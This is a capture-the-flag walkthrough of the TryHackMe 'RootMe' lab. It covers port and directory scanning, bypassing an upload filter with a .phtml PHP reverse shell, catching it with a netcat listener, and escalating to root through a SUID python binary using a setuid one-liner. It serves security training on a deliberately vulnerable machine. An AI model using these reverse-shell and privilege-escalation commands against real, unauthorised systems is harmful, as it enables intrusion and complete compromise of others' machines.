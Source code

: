 # RootMe
This is a fun starter challenge from TryHackMe, it’s a free room, rated Easy. I’ll be showing the step-by-step and explain the process.

![RootMe](../Images/thm_rootme_1.png)

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:  
`nmap -n -sSV -Pn 10.10.73.226`

![RootMe](../Images/thm_rootme_2.png)

The scan shows that the ports 22 and 80 are open, so…  
`Answer: 2`

**What version of Apache is running?**  
As shown in the scan…  
`Answer: 2.4.29`

**What service is running on port 22?**  
Once again, as shown in the scan…  
`Answer: SSH`

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
`gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

![RootMe](../Images/thm_rootme_3.png)

We got a few results right away, and upon testing them we get the right answer…  
`Answer: /panel/`

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  

![RootMe](../Images/thm_rootme_4.png)

I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell  
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
```
$ip = ‘127.0.0.1’;  
$port = 1234;
```

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” - taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


![RootMe](../Images/thm_rootme_5.png)

Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:  
`nc -vnlp 1234`

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.

![RootMe](../Images/thm_rootme_6.png)

It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:  
`python -c ‘import pty; pty.spawn(“/bin/bash”)’`

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
`find / -user root -perm /4000 2> /dev/null`

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:

![RootMe](../Images/thm_rootme_7.png)

The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!  
`Answer: /usr/bin/python`

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:  
`/usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

![RootMe](../Images/thm_rootme_8.png)

Next up, we can search for the “root.txt” file:  
`find / -name root.txt`

![RootMe](../Images/thm_rootme_9.png)

And then we can finally read the file and get the last flag!  
`cat /root/root.txt`

**That’s all folks!**  
Thanks for reading and keep hacking!
